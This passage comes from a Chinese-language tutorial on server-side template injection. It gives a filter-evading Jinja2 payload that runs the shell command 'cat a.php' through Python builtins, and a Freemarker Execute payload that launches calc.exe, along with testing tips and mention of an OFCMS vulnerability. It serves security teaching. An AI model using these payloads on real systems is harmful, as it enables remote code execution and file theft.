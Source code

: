 ```
{{request['__cl'+'ass__'].__base__.__base__.__base__['__subcla'+'sses__']()[60]['__in'+'it__']['__'+'glo'+'bal'+'s__']['__bu'+'iltins__']['ev'+'al']('__im'+'port__("os").po'+'pen("ca"+"t a.php").re'+'ad()')}}
```

可以参考一下P师傅的 https://p0sec.net/index.php/archives/120/



#### 实战

每一个（重）模板引擎都有着自己的语法（点）,Payload 的构造需要针对各类模板引擎制定其不同的扫描规则, 
所以我们在挖掘之前有必要对网站的web框架进行检查，否则很多时候{{}}并没有用，导致错误判断

实战中要测试重点是看一些**url的可控**，比如url输入什么就输出什么。
**前期收集**好网站的开发语言以及框架，防止错误利用{{}}而导致错误判断。
如下图较全的反映了ssti的一些模板渲染引擎及利用：

![ssti](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/ssti.png)




{% endraw %}






### Java的Freemarker

Freemarker模板语言(FTL)

**1.内建函数的利用**





**2.new函数的利用**

new函数可以创建一个继承自freemarker.template.TemplateModel类的实例。

查阅代码发现`freemarker.template.utility.Execute#exec`可以自行任意代码，因此可以通过new函数实例化一个Execute对象并执行exec()方法造成任意代码执行。

Payload：

```java
<#assign value="freemarker.template.utility.Execute"?new()>$(value("calc.exe"))>
```



`freemarker.template.utility`包中三个类都可以被用来执行代码：

- ObjectConstructor
- JythonRuntime
- Execute



OFCMS1.1.2版本的注入漏洞就是采用的Freemarker
